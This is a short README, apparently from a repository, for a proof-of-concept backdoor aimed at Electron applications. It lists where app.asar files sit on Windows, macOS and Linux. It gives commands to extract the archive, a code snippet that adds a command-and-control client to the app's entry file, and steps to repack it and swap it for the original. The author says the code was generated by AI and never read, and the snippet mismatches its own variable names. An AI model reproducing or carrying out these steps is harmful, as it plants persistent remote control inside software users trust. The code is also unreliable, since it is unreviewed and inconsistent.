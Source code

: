 # ASAR backdoor PoC (Vibe coding)

## Finding ASAR Files

In most Electron applications, ASAR files are located in these directories:

**Windows:**
```
C:\Users\{Username}\AppData\Local\{AppName}\app.asar
C:\Users\{Username}\AppData\Local\{AppName}\resources\app.asar
C:\Program Files\{AppName}\resources\app.asar
```

**macOS:**
```
/Applications/{AppName}.app/Contents/Resources/app.asar
```

**Linux:**
```
/opt/{AppName}/resources/app.asar
~/.config/{AppName}/resources/app.asar
```

## Extracting and Modifying ASAR Files

1. Install the asar utility:
```bash
npm install -g asar
```

2. Extract the ASAR file:
```bash
asar extract app.asar extracted/
```

3. Integrate the C2 client into the application:

Find the main entry point (often `main.js` or `index.js` in the root directory) and add the C2 client code at the end of the file.

```javascript
// Add this at the end of the main.js or index.js file
const c2Client = require('./c2-client');
let client = new C2client();
client.start();
```

## Repackaging the ASAR File

After modifying the files, repackage the ASAR:

```bash
asar pack extracted/ new-app.asar
```

Then replace the original ASAR file with your modified version.

## NOTE:

This is just a PoC done quickly using A.I, I didn't even read the code so test this in an isolated enviornment and GGs
